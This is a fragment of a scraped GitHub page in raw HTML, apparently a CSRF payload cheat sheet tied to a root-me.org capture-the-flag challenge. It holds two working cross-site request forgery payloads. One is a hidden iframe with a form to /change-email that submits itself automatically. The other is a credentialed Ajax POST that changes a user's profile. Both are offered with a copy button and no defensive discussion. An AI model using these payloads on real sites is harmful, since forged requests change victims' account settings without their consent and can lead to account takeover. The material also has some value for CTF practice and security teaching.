     <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style=&quot;display:none&quot; name=&quot;csrfframe&quot;></iframe> 
    <form action=&quot;/change-email&quot; id=&quot;csrfform&quot; target=&quot;csrfframe&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; autofocus onfocus=&quot;csrfform.submit();&quot; />
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-ajax-post-request" class="anchor" aria-hidden="true" href="#ajax-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Ajax POST request</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;script&gt;
var xh;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject("Microsoft.XMLHTTP");
  }
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&amp;status=on");
&lt;/script&gt;
